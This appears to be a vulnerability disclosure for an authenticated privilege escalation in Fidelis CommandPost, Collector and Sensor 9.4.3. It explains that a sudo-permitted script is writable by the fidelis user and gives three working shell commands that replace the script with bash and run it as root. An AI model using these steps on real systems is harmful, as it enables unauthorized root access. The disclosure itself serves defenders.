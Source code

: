 ## fssdbg.sh Authenticated Privilege Escalation
**Tested on:**
* Fidelis CommandPost 9.4.3
* Fidelis Collector 9.4.3
* Fidelis (Internal VM) Sensor 9.4.3 

#### Summary:
Misconfigured ownership permissions on /FSS/sbin/fssdbg.sh allow the fidelis user to escalate privileges equivalent to the root user in multiple Fidelis products. By default, the sudoers configuration allows the fidelis user to execute /FSS/sbin/fssdbg.sh as the root user if a password is supplied. The file is owned by the fidelis user, allowing the fidelis user to arbitrarily modify the script and escalate privileges.

#### Exploit:
1. Change permissions to allow modification of the fssdbg.sh file:
```bash
$ chmod u+w /FSS/sbin/fssdbg.sh
```
2. Change the file as needed to execute arbitrary code or, in this example, spawn a shell:
```bash
$ cp /bin/bash /FSS/sbin/fssdbg.sh
```
3. Launch the file using the sudo command and authenticate with the fidelis user password:
```bash
$ sudo /FSS/sbin/fssdbg.sh
```

Screenshot showcasing vulnerability discovery and exploitation:

![](images/fssdbg.sh.png)
